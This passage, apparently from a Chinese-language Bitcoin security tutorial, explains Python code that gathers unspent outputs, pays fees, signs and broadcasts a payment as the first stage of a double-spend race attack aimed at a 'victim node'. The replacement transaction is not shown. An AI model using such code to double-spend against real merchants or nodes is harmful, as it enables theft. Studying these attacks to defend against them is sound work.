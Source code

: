 通过选择将满足所需交易价值(0.1 BTC)和交易费用的未用交易来构建交易输入。

代码中的`while`循环只有在创建了足够的输入值来满足输出值和交易的最小交易费用后才终止。`delta_fee`代表满足交易费用所需的额外费用。如果是正值，则从`value_out`中减去`delta_fee`，否则加上:

```
value_in = 0 
value_out = sum([vout.nValue for vout in tx.vout]) 
unspent = sorted(rpc.listunspent(1), key=lambda x: x['amount']) 
while (value_in - value_out) / len(tx.serialize()) < feeperbyte1: 

    delta_fee = math.ceil((feeperbyte1 * len(tx.serialize())) - (value_in - value_out)) 

    if change_txout.nValue - delta_fee > dust_amount: 
        change_txout.nValue -= delta_fee 
        value_out -= delta_fee 
```

如果输入值小于输出值，则选择新的未用完交易输出用于花费。为新选择的未用输出创建交易输入，并且将金额添加到交易输出变化中。每次对事务进行签名以更新`scriptSig`,以便在每次迭代中更新事务的大小:

```
    if value_in - value_out < 0: 
        new_outpoint = unspent[-1]['outpoint'] 
        new_amount = unspent[-1]['amount'] 
        unspent = unspent[:-1] 

        print('Adding new input %s:%d with value %s BTC' % \ 
        (b2lx(new_outpoint.hash), new_outpoint.n, 
        str_money_value(new_amount))) 

        new_txin = CMutableTxIn(new_outpoint, nSequence=tx1_nSequence)
         tx.vin.append(new_txin) 

        value_in += new_amount 
        change_txout.nValue += new_amount 
        value_out += new_amount 

        r = rpc.signrawtransaction(tx) 
        assert(r['complete']) 

        tx.vin[-1].scriptSig = r['tx'].vin[-1].scriptSig 
```

在将事务发送到网络之前，该事务最终被再次签名。理想情况下，该事务仅发送到竞争攻击中的受害节点。我们在本例中广播了该交易，因为我们将通过为双重花费交易创建更高的优先级来替换该交易:

```
r = rpc.signrawtransaction(tx) 
assert(r['complete']) 
tx = CMutableTransaction.from_tx(r['tx']) 

print('Payment raw transaction %s' % b2x(tx.serialize())) 
print('Payment raw transaction size: %.3f KB, fees: %s, %s BTC/KB' % \ 
             (len(tx.serialize()) / 1000, 
              str_money_value(value_in-value_out), 
              str_money_value((value_in-value_out) / len(tx.serialize()) * 1000))) 

txid = rpc.sendrawtransaction(tx) 
print('Sent payment with txid: %s' % b2lx(txid)) 
```
